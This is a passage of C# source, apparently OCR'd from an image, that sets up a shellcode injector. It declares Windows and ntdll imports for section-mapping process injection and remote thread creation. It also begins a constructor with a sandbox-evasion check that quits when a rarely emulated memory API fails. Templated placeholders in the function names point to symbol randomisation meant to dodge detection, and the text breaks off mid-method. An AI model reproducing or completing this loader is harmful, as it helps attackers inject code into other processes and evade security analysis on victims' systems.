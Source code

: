         [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
        static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMaPView_%hName%OfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmaPView_%hName%OfSection(IntPtr hProc, IntPtr baseAddr);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        // BEGIN DEBUG (imports)
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
        static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);
        [DllImport("kernel32.dll", SetLastError = true)] static extern IntPtr FlsAlloc(IntPtr callback);

        static bool CompareByteArray(byte[] b1, byte[] b2)
        {
            return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr)b1.Length) == 0;
        }
        // END DEBUG
        public TestClass()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

